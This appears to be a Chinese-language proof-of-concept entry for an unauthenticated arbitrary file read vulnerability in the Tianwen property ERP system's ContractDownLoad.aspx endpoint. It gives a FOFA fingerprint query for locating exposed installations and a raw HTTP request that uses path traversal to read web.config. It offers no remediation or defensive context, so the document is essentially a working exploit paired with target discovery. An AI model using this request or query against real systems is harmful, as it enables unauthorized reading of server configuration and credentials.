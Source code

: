 # 天问物业ERP系统ContractDownLoad存在任意文件读取漏洞

天问物业ERP系统` /HM/M_Main/InformationManage/ContractDownLoad.aspx `接口处存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露，导致系统处于极不安全的状态。

## fofa

```yaml
body="天问物业ERP系统" || body="国家版权局软著登字第1205328号" || body="/HM/M_Main/frame/sso.aspx"
```

## poc

```java
GET /HM/M_Main/InformationManage/ContractDownLoad.aspx?ContractFile=../web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

